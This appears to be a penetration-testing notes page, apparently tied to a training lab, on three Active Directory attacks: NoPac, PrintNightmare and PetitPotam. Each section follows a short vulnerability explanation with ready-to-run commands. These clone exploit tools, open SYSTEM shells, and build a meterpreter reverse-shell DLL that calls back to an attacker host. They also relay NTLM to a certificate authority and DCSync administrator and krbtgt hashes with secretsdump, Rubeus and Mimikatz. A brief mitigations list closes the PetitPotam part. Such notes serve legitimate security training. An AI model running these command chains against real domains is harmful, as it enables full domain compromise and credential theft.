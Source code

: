 ### Content
- [NoPac](#nopac)
- [PrintNightmare](#printnightmare)
- [PetitPotam](#petitpotam)
---
# NoPac

This vulnerability encompasses two CVEs [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287), allowing for intra-domain privilege escalation from any standard domain user to Domain Admin level access in one single command.

## CVE-2021-42278 – SAM Name impersonation

`A vulnerability with the Security Account Manager (SAM).`

- Internally, Active Directory (AD) uses several naming schemes for a given object. Like userPrincipalName (UPN), and sAMAccountName (SAM-Account).
- In cases of computers – these sAMAccountName attributes usually end with `$` in their name. Traditionally, this `$` was used to distinguish between user objects and computer objects. It is important to mention there are no restrictions or validations for changing this attribute to include or not include the `$` sign.
- With default settings, when the relevant patch is **not** applied, a normal user has permission to modify a machine account (up to 10 machines) and as its owner, they also have the permissions to edit its sAMAccountName attribute.

## CVE-2021-42287 - KDC bamboozling

`A vulnerability within the Kerberos Privilege Attribute Certificate (PAC) in ADDS.`

- When performing an authentication using Kerberos, Ticket-Granting-Ticket (TGT) and the following Ticket-Granting-Service (TGS) are being requested from the Key Distribution Center (KDC). In case a TGS was requested for an account that could not be found, the KDC will attempt to search it again with a trailing `$`.
- For example, if there is a domain controller with a SAM account name of DC1$, an attacker may create a new machine account and rename its SAM account name to DC1, request a TGT, rename it again for a different name, and request a TGS ticket, presenting the TGT he has in hands.
- When processing the TGS request, the KDC will fail its lookup for the requestor machine DC1 which the attacker had created. Therefore, The KDC will perform another lookup appending a trailing `$` so the requestor name becomes `DC1$`. The lookup will succeed. As a result, the KDC will issue the ticket using the privileges of DC1$.

[tool](https://github.com/Ridter/noPac) to perform this attack.

```bash
$ git clone https://github.com/Ridter/noPac.git
# See if the system is vulnerable by checking if ms-DS-MachineAccountQuota > 0
$ sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
# Obtain a shell with SYSTEM level privileges
$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
# NoPac.py saves the TGT in the directory on the attack host where the exploit was run.
# We can then use the ccache file to perform a pass-the-ticket and perform further attacks such as DCSync.


# Using noPac to DCSync the Built-in Administrator Account, it uses secretsdump.py inside it with -dump flag
$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator

# Using secretsdump
export KRB5CCNAME=/path/to/tgt
$ secretsdump.py -just-dc-user wley -k -no-pass -dc-ip 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' @'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL'
```

---

# PrintNightmare

This vulnerability encompasses two CVEs [2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) and [2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675) found in the [Print Spooler service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc) that runs on all Windows operating systems and allows remote execution of arbitrary code with SYSTEM rights using a domain account.

`PrintNightmare` is an RCE (Remote Command Execution) vulnerability. 
If the vulnerable machine is configured to reject remote connection, this vulnerability could still be exploited in an LPE (Local Privilege Escalation).

The vulnerability lies in the functions allowing remote driver installation by users, `RpcAddPrinterDriverEx` and `RpcAddPrinterDriver`.

1. The attacker stores the driver DLL file on a SMB share reachable from the server.
2. The client creates a [`DRIVER_INFO_2`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/39bbfc30-8768-4cd4-9930-434857e2c2a2) object containing the path to the attacker's DLL and passes it into the DRIVER_CONTAINER object.
3. The client calls [`RpcAddPrinterDriverEx`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/b96cc497-59e5-4510-ab04-5484993b259b) with the `DRIVER_CONTAINER` to load the attacker's DLL into the server's dynamic library and with multiple bit values within the `dwFileCopyFlags` in order to bypass the `SeLoadDriverPrivilege` privilege verification by the server.
4. The attacker's DLL is executed on the server within `SYSTEM` context.

## Print Spooler Service

The Print Spooler is a Microsoft built-in service that manages printing jobs. It is enabled by default and runs within the `SYSTEM` context.
3 RPC protocols are registered by the spooler:
- `MS-RPRN`: Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server synchronously.
- `MS-PAR`: Microsoft’s Print System Asynchronous Remote Protocol. It has the same functionalities as MS-RPRN, but works asynchronously.
- `MS-PAN`: Microsoft’s Print System Asynchronous Notification Protocol. It is used to receive print status notifications from a print server and to send server-requested responses to those notifications back to the server.

Using [cube0x0's](https://twitter.com/cube0x0?lang=en) exploit

```bash
# Clone the exploit
$ git clone https://github.com/cube0x0/CVE-2021-1675.git

# Install cube0x0's Version of Impacket
$ pip3 uninstall impacket
$ git clone https://github.com/cube0x0/impacket
$ cd impacket
$ python3 ./setup.py install

# Check if the target is exposed
$ rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol 

# Generate a DLL pyaload
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll

# Create a Share with smbserver.py
$ sudo smbserver.py -smb2support shareName /path/to/dll

# Start a meterpreter listener
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 172.16.5.225
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

# Run the exploit on the attacker machine, a reverse shell will start on the meterpreter listener
$ sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\shareName\backupscript.dll'
```
---
# PetitPotam

CVE [2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942) is an LSA spoofing vulnerability that was patched in August of 2021. The flaw allows an unauthenticated attacker to coerce a Domain Controller to authenticate against another host using NTLM over port 445 via the [Local Security Authority Remote Protocol (LSARPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-lsad/1b5471ef-4c33-4a91-b079-dfcbb82f05cc) by abusing Microsoft’s [Encrypting File System Remote Protocol (MS-EFSRPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31). This technique allows an unauthenticated attacker to take over a Windows domain where [Active Directory Certificate Services (AD CS)](https://docs.microsoft.com/en-us/learn/modules/implement-manage-active-directory-certificate-services/2-explore-fundamentals-of-pki-ad-cs) is in use.

In the attack, an authentication request from the targeted Domain Controller is relayed to the Certificate Authority (CA) host's Web Enrollment page and makes a Certificate Signing Request (CSR) for a new digital certificate. This certificate can then be used with a tool such as `Rubeus` or `gettgtpkinit.py` from [PKINITtools](https://github.com/dirkjanm/PKINITtools) to request a TGT for the Domain Controller, which can then be used to achieve domain compromise via a DCSync attack.

Tool for Linux attack host [PetitPotam.py](https://github.com/topotam/PetitPotam).
PowerShell implementation of the tool [Invoke-PetitPotam.ps1](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1).

```bash
# Starting ntlmrelayx.py in window
$ sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
# If we didn't know the location of the CA, we could use:
# certi (https://github.com/zer1t0/certi) or
# ceripy-ad (https://github.com/ly4k/Certipy) to attempt to locate it. <<<---

# Run the tool PetitPotam.py <attack host IP> <Domain Controller IP> on another window 
# to attempt to coerce the Domain Controller to authenticate to our host where ntlmrelayx.py is running.
$ python3 PetitPotam.py 172.16.5.225 172.16.5.5  

# A base64 Encoded Certificate for DC01 will appear on the ntlmrelayx window

# Requesting a TGT Using gettgtpkinit.py
$ python3 gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 <base64Blob> dc01.ccache
# The command output will be a ccache file and (((((AS-REP encryption key)))))

# Set KRB5CCNAME Environment Variable
$ export KRB5CCNAME=dc01.ccache

# We can also extraxt DC01 NT hash using the tool getnthash.py from PKINITtools while (KRB5CCNAME exported) 
$ PKINITtools/getnthash.py -key <key_from_gettgtpkinit> INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$

Recovered NT Hash
00dff1753260356245407a1a4bbb7b58

# Using Domain Controller TGT to DCSync the administrator hash while (KRB5CCNAME exported) 
$ secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL

# Using Domain Controller NT hash to DCSync the administrator hash
$ secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes :00dff1753260356245407a1a4bbb7b58
```

After obtaining the base64 blob from `ntlmrelayx.py` we can request a `TGT` and perform `PTT` witch `DC01$` machine account.

```Powershell
PS C:\Tools> .\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt

# Then performing DCSync with Mimikatz
PS C:\Tools> .\mimikatz.exe 'lsadump::dcsync /user:inlanefreight\krbtgt'
```

## PetitPotam Mitigations

First off, the patch for [CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942) should be applied to any affected hosts. Below are some further hardening steps that can be taken:

- To prevent NTLM relay attacks, use [Extended Protection for Authentication](https://docs.microsoft.com/en-us/security-updates/securityadvisories/2009/973811) along with enabling [Require SSL](https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429) to only allow HTTPS connections for the Certificate Authority Web Enrollment and Certificate Enrollment Web Service services
- [Disabling NTLM authentication](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-ntlm-authentication-in-this-domain) for Domain Controllers
- Disabling NTLM on AD CS servers using [Group Policy](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-incoming-ntlm-traffic)
- Disabling NTLM for IIS on AD CS servers where the Certificate Authority Web Enrollment and Certificate Enrollment Web Service services are in use
